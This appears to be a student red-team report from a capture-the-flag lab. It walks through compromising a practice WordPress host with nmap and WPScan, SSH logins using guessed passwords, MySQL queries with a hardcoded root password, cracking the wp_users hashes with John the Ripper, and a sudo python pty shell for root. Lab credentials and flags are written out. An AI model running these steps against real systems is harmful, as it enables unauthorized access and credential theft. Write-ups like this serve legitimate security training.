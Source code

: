 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```

![Nmap Scan Results](/images/nmap%20192_168_1_0.png)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - 22/tcp  open  ssh
  - 80/tcp  open  http
  - 111/tcp open  rpcbind
  - 139/tcp open  netbios-ssn
  - 445/tcp open  microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - WordPress User Enumeration
  - Port 22 open

![wpscan](

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
Target 1
- `flag1: b9bbcb33ellb80be759c4e844862482d`
- Exploit to find users:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`


![WP_Scan](/images/03%20wpscan%201.PNG)
- Logging into Target 1 as user Michael
  - Brute force/guessing Michael's password
  - Weak password too easy
  - Password: michael
- Searching directories for Flag 1
  - SSH and directory traversal
  - flag 1 found in /var/www/html folder in root in service.html in a HTML comment at "End of footer area"
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`


![Flag 01](/images/04%20FLAG%2001.PNG)

- `flag2: fc3fd58dcdad9ab23faca6e9a3e581c`
  - Exploit Used
    - `ssh michael@192.168.1.110` 
    - `pw: michael`
    - `cd ../` 
    - `cd ../`
    - `cd var/www`
    - `ls -l`
    - `cat flag2.txt`


![Flag2](images/05%20FLAG%2002.PNG)

- `flag3: afc01ab56b50591e7dccf93122770cd2`
  - Exploit Used
    - SSH and directory traversal
    - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - `show databases;`
    - `use wordpress;` 
    - `show tables;`
    - `select * from wp_posts;`


![Flag 03](/images/06%203%20flag.PNG)

- `flag4: 715dea6c055b9fe3337544932f2941ce`
  - Exploit Used
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
      - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
      - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called hashes.
        - Commands:
          - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_users;`
    - ![wp_users](/images/08%20wp%20users.png)
      - Now to crack the hashes with John the Ripper:
      - Command:
        - `john hashes`
        - There is no screenshot for this because it took too long to actually crack the hash.
      - Once the password hash was cracked, SSH is the next thing to do.
      - Then, Python was used to escalate to super user.
        - Commands:
          - `ssh steven@192.168.1.110`
          - `pw:pink84`
          - `sudo -l`
          - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
          - `cd /root`
          - `ls`
          - `cat flag4.txt`
    
![Image of Flag 04](/images/07%20FLAG%2004.PNG)

